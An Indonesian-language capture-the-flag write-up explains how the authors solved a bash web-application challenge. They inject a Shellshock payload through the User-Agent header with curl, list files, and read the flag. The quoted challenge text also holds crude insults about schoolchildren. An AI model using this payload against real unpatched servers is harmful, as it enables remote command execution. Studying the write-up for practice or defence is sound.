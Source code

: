 Deskripsi soal: 

<pre>
"How did I end up here?" is the only question you can think of since you've become a high school teacher. 
Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. 
It's time to have your little midlife crisis right in the face of these fuckers.
Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. 
How cute. It's written in bash... that's... that's... aw- no... bashful. 
You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.
</pre>

URL: https://school.fluxfingers.net:1503

Peserta diberikan soal dimana sebuah website dapat meng-handle Bash script. Sebenarnya kami tidak berhasil tepat waktu menyelesaikan tantangan yang satu ini tepat waktu, tapi tidak ada salahnya kami membagikan cara penyelesaiannya.
<br />
Jadi, pada soal tantangan kali ini kami mencoba untuk melakukan serangan <i>command injection</i> melalui header tepatnya pada sisi <i>User-Agent</i>. Kami menggunakan <i>trigger exploit</i> <b>Shellshock</b> untuk mengetes kerentanan apakah Bash yang terdapat pada situs ini memiliki kerentanan akan serangan tersebut.
<br />
Kemudian , untuk mencoba trigger exploit tersebut kami menggunakan curl untuk menjalankan custom <i>User-Agent</i> yang sebelumnya sudah kami beri trigger exploitnya. Selanjutnya kami menjalankan <i>directory listing</i> pada direktori /bin <br />
<pre>curl -A "() { :;}; /bin/ls;" https://school.fluxfingers.net:1503/?sessid=sessid_anda</pre>
Voila! terdapat beberapa file - file yang menarik disini, berarti ini menunjukkan trigger exploit tersebut berjalan dengan baik.
<pre>
404.sh
flag
home.html
home.sh
index.sh
</pre>
Terlihat file <b>flag</b> yang muncul dimana kami yakin itulah file yang menyimpan kalimat dari flag itu sendiri. Maka, perintah terakhir yang dijalankan ialah :
<br />
<pre>curl -A "() { :;}; /bin/cat flag;" https://school.fluxfingers.net:1503/?sessid=sessid_anda</pre>
<br />
Didapatkan flag: <b>flag{as_classic_as_it_could_be}</b>
